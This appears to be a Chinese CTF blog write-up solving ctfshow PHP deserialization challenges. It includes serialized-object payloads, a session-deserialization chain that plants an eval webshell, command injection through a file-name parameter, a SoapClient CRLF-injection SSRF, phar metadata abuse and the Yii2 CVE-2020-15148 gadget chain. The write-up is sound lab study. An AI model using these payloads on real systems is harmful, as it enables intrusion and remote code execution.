

web254
本题目基于 PHP7.3.11
做法
草，我一开始还以为username要用对象传进去，原来那个xxxxxx就是，那没事了。
直接访问 /?username=xxxxxx&password=xxxxxx 即可

web255
本题目基于 PHP7.3.11
知识点
- PHP的对象序列化
做法
设username为test，password为test，注意php反序列化必须将对象内容全部设置完毕，不然不会成功反序列化。好像也不是，回去再试试
1 | <?php |
再注意丢去urlencode，得
1 | O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22test%22%3Bs%3A8%3A%22password%22%3Bs%3A4%3A%22test%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D |
放到header，Cookie: user=xxx
1 | curl --location --request GET 'http://55dfc84a-386d-4d27-aa29-872ad23e4c1b.challenge.ctf.show:8080/?username=test&password=test' \ |
your flag is ctfshow{106d93e8-fdba-4ce3-9ea2-6e9dd7e76250}
web256
知识点
- 细心的判断
做法
麻痹的，这题还有个判断条件

将上题中所设的password改为test1获得flag
web257
知识点
- 通过PHP序列化覆盖 ctfShowUser 中的 class 变量
- 间接修改 backDoor 中的 code 变量
做法
https://www.fatalerrors.org/a/ctfshow-deserialization.html
按照该网站上的做法，
1 | <?php |
但我无法复现，即使是改为这样
1 | <?php |
破案了，你妈将postman输出改成pretty就好了
（问题：这里construct函数也可以被覆盖吗？还是说因为construct将class给覆盖了？serialize会自动忽略construct函数吗？）
web260
知识点
- PHP的序列化
做法
1 | <?php |
/?ctfshow=O:1:”A”:1:{s:4:”text”;s:18:”ctfshow_i_love_36D”;}
web262
本题目基于 PHP5.6.40
知识点
- PHP序列化
- 修改 Cookie（editthiscookie）
- base64编码
做法
这题原来放在 /message.php 了，亏我还找半天这个 index.php 怎么注入。。。


该题关键在于将 msg 的 token 设置为 admin
1 |
|

成功拿到flag
web263
本题目基于 PHP7.3.11
知识点
- 利用字符串拼接注入
- PHP Session 的反序列化漏洞
- 备份文件的压缩文件命名
做法
看了 wp，存在www.zip，这指定了类型的谁想得到啊（晕
然后以为可以用通配符蒙混过关（/inc/inc.php），顺便试了一下sqlmap，结果发现有拦截sql注入
然后发现editthiscookie不好用了，弄得我以为是自己写的问题，坑啊
关注到 /inc/inc.php 上有一行
ini_set('session.serialize_handler', 'php');
参考资料：https://www.mi1k7ea.com/2019/04/21/PHP-session反序列化漏洞/
php 以 | 作为 key和value的分隔符。此处的User中destruct方法有一个file_put_contents，在session反序列化过程中可以利用到User这一个类。
构造下面的文件来尝试是否产生文件。
1 |
|
将输出的内容放入 cookies 中的 limit 字段，需要注意的是，在放入之前cookies需要先存在 PHPSESSID 字段及 limit 字段（先访问一次index.php，替换完以后再访问一次index.php），然后再访问（check.php）。
最后访问 log-test.php，查看是否生成 phpinfo();

可以看到是正常生成的。将内容改为
<?php eval($POST[0]); ?> （设置为’x’不知道为什么没法传进去，设置为0就好了）
1 |
|
使用 AntSword

配置完右键打开flag.php拿到flag
web264
本题目基于 PHP 5.6.40
知识点
- PHP的反序列化逃逸（字符串变长）
做法
原题代码：index.php
1 |
|
message.php
1 |
|
参考资料：
https://blog.csdn.net/qq_43431158/article/details/108210822（Web262）
https://blog.csdn.net/qq_45521281/article/details/107135706（两种序列化）
这里利用到了反序列化的逃逸，就是前面有一个看不懂的莫名其妙的将fuck替换为loveU的过程，这里就可以派上用场了。
因为将fuck替换为loveU其实是增加了字符串的长度。而反序列化中其中有一个字段是用来说明字符串的字符个数的，导致传进去的字符串被替换后刚刚好在";前被截断了。只要字符个数会有多出来，然后成功把后面的括号给包含与闭合，任务就算完成了。
由题目，我们的任务是将其token替换为admin，也就是只要后面这一段，要在$t上下手。
";s:5:"token";s:5:"admin";}
这里一共新增27个字符，所以我们要写27个fuck。
拼接后参数t为
fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
参数f和参数m随意设置，最后请求参数为
1 | f:1 |
访问index.php出现 Your message has been sent 后新增cookies msg，内容随便设置，访问message.php，获得flag
真是好累啊（擦汗）
同样的，对于反序列化字符长度减小，我们也可以更换思路，将原有的字符串顶包补足给前一个参数，然后我们再在后面添加修改。
比如这题，如果替换了一下，变成将loveU换成fuck那该怎么做呢？
我们同样可以选择修改t参数，让他把原来的后面的参数给吃了。原来的参数序列化后为 ";s:5:"token";s:4:"user";}，那我们就写26个loveU，让他把后面吃了，我们自己再补充 ";s:5:"token";s:5:"admin";} ，就可以解决字符串减小的反序列化漏洞。
web265
知识点
- 对象内变量指针
做法
从代码可以看出来，这里的token是被替换过的，所以从token下手是没办法的。但是可以看到login处又有判断要求token和password相同，那有什么办法呢？
C语言里面讲过一个指针的思想，PHP上其实也可以应用，也可以被序列化，所以我们将password的值始终绑定到token上就可以了
1 |
|
输出 O:12:"ctfshowAdmin":2:{s:5:"token";N;s:8:"password";R:2;} ，丢到参数里拿到flag
web266
知识点
- 正则表达式
- PHP 函数/类命名不区分大小写
做法
这题中可以看出，最后三行明显是不让你碰ctfshow这几个字，但题中的class偏偏是ctfshow，怎么办呢？
行吧，这题就是考php基础，千算万算没算到PHP的函数是不区分大小写的。
（以后可以留意正则最后面有没有加/i，没加就是不区分大小写）
1 |
|
输出 O:7:"ctfshow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
将ctfshow任意一个字母改为大写，成功拿flag
绝！
web259
本题目基于 PHP7.3.11
知识点
- SoapClient，在反序列化时利用PHP原生类
- CRLF漏洞，即利用回车+换行（\r\n）注入到Header中
非预期解
看flag.php的条件，首先要修改请求头XFF，使用ModHeader可以修改。同时要带上ctfshow的token，方可获得flag.txt。但看似简单，实际上直接请求flag.php就算作弊了，题目要求的应该是通过index.php来请求flag.php。
虽然但是，不知道index.php想干嘛，题目提示了个flag.php，其实也跟index.php没啥关系嘛
改header xff为127.0.0.1，同时post个token为ctfshow，成功。
官方の梦
参考地址：
https://blog.csdn.net/rfrder/article/details/113808539
http://cn-sec.com/archives/145718.html
上面那个解都不知道哪个傻子做的，还以为做1+1=2呢
从 index.php 可以看出，该题打算在 index.php 中通过反序列化调用 flag.php 中的类，但题目中并没有明确地调用到flag.php。所以显然上述解法是错误的。SoapClient 是内置在 PHP 当中，可以直接被调用的一个类。
同时，利用请求头的CRLF漏洞，对请求头的 Content-Length 进行覆盖，使其读完请求头后忽略后续数据与请求头。参考资料如下：
https://wooyun.js.org/drops/CRLF Injection漏洞的利用与实例分析.html
目前题目的目的就是要实例化 SoapClient，并对 http://127.0.0.1/flag.php 发出post请求。多次尝试后，发现正常进行一个POST请求必须带上下面的参数，且缺一不可：
- 请求方式，请求路径，HTTP版本
- Host主机
- Content-Type 内容类型
- Content-Length 内容长度（用于截断后续请求）
- 同时，对于本题目，还需要补充 XFF。
在telnet中尝试此操作
1 | telnet aaa.challenge.ctf.show 8080 |
可以发现返回的Content-Length为0，则成功放置flag.php。
同样的，在SoapClient中，我们要对Header进行下手，构造类似的头。为了区分头部和post内容，在头部和内容间应多一次回车换行。但SoapClient仅可修改User-Agent，所以我们要从User-Agent下手，修改后的User-Agent为
ThisIsKellysBrowser\r\nX-Forwarded-For: 127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow
我们尝试对其他IP发送一次Post请求并抓包，看看到底发生了什么
1 | // web259.php |
1 | Internet Protocol Version 4, Src: 172.16.*.*, Dst: 172.16.*.* |
可以看到，这位wireshark同学对我们刚发出的请求十分疑惑，理论上来说发出token=ctfshow以后客户端方面就该闭嘴了，没想到他还在啪啪啪地发着他的头，他想干啥呢，事实上在服务端接收的时候，也是接收完token=ctfshow后就不理你了，服务端会正常接收请求并返回内容，往后的内容会当成下一次的请求处理。
同时，毫无用处的uri也会在下方的SOAPAction中体现。不过我们的输入到token=ctfshow就结束了，所以后面的是真的没什么用。Host和路径会由SoapClient自动帮我们解析。
但是请求过程中发现了一个问题，如果请求头中xff没有设置为 X-Forwarded-For: 127.0.0.1, 127.0.0.1 ，则会抛出错误
Fatal error: Uncaught SoapFault exception: [Client] looks like we got no XML document in /var/www/html/index.php:8 Stack trace: #0 /var/www/html/index.php(8): SoapClient->__call('getFlag', Array) #1 {main} thrown in /var/www/html/index.php on line 8
原因：在flag.php中，有一句不起眼的 $ip = array_pop($xff) ，会将第一个XFF IP去掉，导致 flag.php 没法拿到ip，真是太可恨了（握拳
所以，最终的payload应为
1 | // web259.php |
然后访问 /flag.txt ，获取flag。
题外话
HTTP的请求过程
首先用 telnet 建立一个socket连接进行尝试，我们这里尝试一个最简单的请求，就拿我刚才写的payload做例子吧
1 | telnet localhost 8888 |
可以看到，我们这里对 web262.php 进行 GET 请求只发送了两行，下面服务端就返回了完整的头部和内容。实际上，对于任何一个请求，客户端发送都必须要有这两行的要素。一，包括其请求方式、路径、http协议版本，二、请求的主机名。在没有curl而有telnet的情况下，大可以用这种方式来测试中间件服务器是否正常运作（不过一般不会有人这么干，也很少有只有telnet而没有curl的情况）
其他问题
除了 SoapClient，有没有其他也能够被调用网页请求的类呢？
<待补充>
是否存在任何反序列化的文件都可以调用 SoapClient 达到对内网其他网站的请求或攻击？
理论上存在反序列化的地方都可以调用 SoapClient，前提是他能够调用一个不存在的方法。
为什么在 SoapClient 的变量中请求 getFlag 就能发起一次请求呢？
答：SoapClient 在调用不存在的方法的时候，会让SoapClient直接调用__call
为什么必须要设置 uri 和 location？我不设置可以吗
An array of options. If working in WSDL mode, this parameter is optional. If working in non-WSDL mode, you must set the location and uri options, where location is the URL to request and uri is the target namespace of the SOAP service.
————————————————
版权声明：本文为CSDN博主「gogiqp_jyh」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/gogiqp_jyh/article/details/17359053即工作于非WSDL模式下的时候，uri和location必须设置，uri为SOAP服务的目标命名空间，但实际上在本题并没有什么卵用，大可忽略。
web261
本题目基于 PHP7.4.16
参考资料：https://blog.csdn.net/miuzzx/article/details/110558192
题目分析
根据上述题解中所述，
如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，
则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。
所以在该题中，只有unserialize()会被激活。事实上随意构造一个payload尝试一下也是如此，仅仅调用了unserialize和destruct

同时还有一个关键，要在desturct时判断其code为0x36d（十进制为877）方可执行file_put_contents。留意一个条件，PHP在双等号时为弱类型判断。我们可以简单构造一个判断语句进行尝试
1 |
|
PHP 返回结果为 1，那就好办了，只需要将 username 设为 877.php，password设为一句话木马即可。
做法
最后的payload为
1 |
|
然后在 AntSword 中进入 /flag_is_here 获取 flag。
web275
本题目基于 PHP7.3.11
俗话说得好，最evil的才是最骚的（不是
留意下列条件，卧槽evil反而能利用system？我还以为是利用file_put_contents来做，但很明显这里有更方便的方法。
1 | public function __destruct(){ |
构造fn参数为 php;ls 可以看到当前目录下有两个文件flag.php index.php
构造fn参数为 php;cat flag.php 获取flag
web276
本题目基于 PHP7.3.11
参考资料：https://blog.csdn.net/weixin_45882317/article/details/116225803
这里判断条件被$this→admin堵死了，看起来并没有其他途径来修改admin的值。
知识点
- phar 的打包和使用
关键
- file_put_contents 中可以输入绝对路径，unlink 中也会丢出一个绝对路径，绝对路径和绝对路径拼接会导致unlink失败。
做法
phar其实类似于jar一样，将一大堆的php代码打包封装好直接调用。
首先，打包要将 phar.readonly 设置为 Off，否则会出现如下报错

将fn设成 /var/www/html/233.txt ，底下报出 Warning: unlink(/var/www/html//var/www/html/233.txt): No such file or directory in /var/www/html/index.php on line 49 ，再访问233.txt，返回200，手术很成功.jpg
首先尝试一下列出目录，payload如下
1 |
|
在自己电脑上运行一下，会生成一个 phar.phar，然后丢到postman，设置post，内容为binary，参数fn为/var/www/html/phar.phar，发送
然后在浏览器请求参数fn为 phar://phar.phar

wow，成功，注意这里不能将ls改成flag.php，否则会被第二个正则规则过滤，你可以改成cat fl*，或者你直接插个一句话木马也是没什么所谓的
1 | if(preg_match('/flag/i', $this->filecontent)){ |
第二次拿flag的payload
1 |
|
postman 设置

第二次请求 /?fn=phar://phar2.phar 右键查看源代码获取 flag
其他问题
「你们难道就一点问题都没有的吗？」 —— TARI TARI
怎么打包 phar
答：根据 https://www.iloveflag.com/2020/07/09/浅谈phar文件在ctf中的应用/ ，打包 phar需要经过下列代码
1
2
3
4
5
6
7
8
9
10
11
12
13
class Test{
}
@unlink("test.phar");
$phar = new Phar("test.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new Test();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.php", "<?php phpinfo();"); //添加要压缩的文件
$phar->stopBuffering(); //签名自动计算由此又衍生处几个问题，包括但不限于
为什么要设置 stub，他有什么作用吗？为什么要写 __HALT_COMPILER();？
参考资料：https://www.webhek.com/post/packaging-your-php-apps-with-phar.html
运行Phar文件时，stub文件被当做一个meta文件来初始化Phar， 并告诉Phar文件在被调用时该做什么。
打个不太恰当的比喻，可能类似于phar的入口文件吧，或者像是模板的header.php，在调用内容前可以用来执行一下前面的函数。
同时，phar也必须加入__HALT_COMPILER();
stub文件的结尾处需要调用 __HALT_COMPILER() 方法，这个方法后不能留空格。__HALT_COMPILER() 会立即终止PHP的运行，防止include的文件在此方法后仍然执行。这是Phar必须的，没有它Phar将不能正常运行
由此又衍生出一个问题
可以在setStub时就插入file_put_contents插入一句话木马吗？
试了一下，无论是echo “test”;还是放置1.txt，还是修改为绝对路径 /var/www/html/1.txt ，好像都不能正常插入，可能不行？
<待尝试>
为什么要设置添加其他压缩文件，它有什么用？不加可以吗
phar本质是一个压缩文件，需要其他文件来填充。实测如果不加其他文件来压缩的话，phar文件不能被产生。
为什么要设置Metadata，为什么它能够自动反序列化
参考资料：https://zhuanlan.zhihu.com/p/385362368
manifest：压缩文件的属性等信息，其中的Meta-data会以序列化的形式存储。
也就是说，这个menifest存储的是压缩文件的属性信息，而又恰好这个metadata是以序列化的形式存储的，当对phar进行读取等操作的时候，就会将这个metadata给反序列化，自然可以调用到上文中的destruct。
web267
本题目基于 PHP7.3.11, Yii 未完成
参考资料
https://blog.csdn.net/rfrder/article/details/113824239（yii2框架 反序列化漏洞复现）
本地环境搭建
在 Github https://github.com/yiisoft/yii2/releases/tag/2.0.37 上下载 2.0.37 版本，解压到网站目录，并将 webroot 指向 /web ，安装 composer，
1 | curl -sS https://getcomposer.org/installer | php |
完成后运行 composer run-script post-create-project-cmd
打开 yii2.local，查看是否安装成功

开搞
参考资料：
- https://blog.csdn.net/rfrder/article/details/113824239
- https://www.cnblogs.com/potatsoSec/p/13693969.html
对于反序列链利用我还不是很懂，所以大部分都是跟着大佬和别人的wp依葫芦画瓢，此文章仅仅是为了记录我的一次实践过程，十分感谢上述这些资料的帮助。
根据文章，反序列化反序列化，就是要用到unserialize的。不过不用急，我们先看一下 CVE-2020-15148 修复了什么。


从 https://github.com/yiisoft/yii2/commit/9abccb96d7c5ddb569f92d1a748f50ee9b3e2b99 可以看出，对 framework/db/BatchQueryResult.php 增添了 __wakeup 用于禁止 BatchQueryResult 被反序列化，言外之意就是我们要利用这个来进行反序列化漏洞。

这个漏洞的切入点为 __destruct()（到底是怎么找到的，我也不清楚，网上也没说清楚，可能是因为在这个类没有 __call 等其他 __ 开头的方法的时候，这个是最直接有效的可使用的？）

它调用了reset()，而 reset() 又调用了 close(); ，其中此处的判断条件又仅仅是判断是否为 null。

又因为反序列化中，其变量其实都是可控的，也就是说我们可以继续在此处放入一个任意的对象调用close()，只要它有 __call 就可以调用它了。
全文搜索 call ，发现一个较为合适的注入点 /verdor/fzaninotto/faker/src/Faker/Generator.php（为什么这里较为合适，是因为后面 format 还调用了 call_user_func_array吗？）

为了了解到直接调用 →close(); 会发生什么，这里写一个简单的程序来展示一下。
1 |
|
最终输出结果为 close Array ( [0] => 1 [1] => 2 )，也就是说close被当成第一个参数 method 被传进去了，而 close 中的参数被传入 param 中，为一个数组。
我们再回来看这里的 __call ，调用了一个 format，巧了吗不是，format中call_user_func_array能被利用，我们再看这个 getFormatter 到底执行了什么


反序列化嘛，这么个变量我还治不了你？也就是说， call_user_func_array 的第一个参数我们是可以自行控制的。但不行啊，arguments我们控制不了啊，怎么办呢，那我们调用另一个对象的方法呗，反正$this→getFormatter($formatter)是可控的，没说这里必须要填个string吧？
使用正则表达式 function .*\(\)\n?\ \{(.\n.*)+call_user_func\(\$this （这里最后的$this存粹就是为了图方便，毕竟可以直接构造对象）在PHPStorm中查找，我们可以发现有一个符合条件的。

两个可控，香饽饽，文件在 /rest/CreateAction.php 下
到这里，反序列化链就已经结束了。流程即为
1 | /db/BatchQueryResult.php:79 |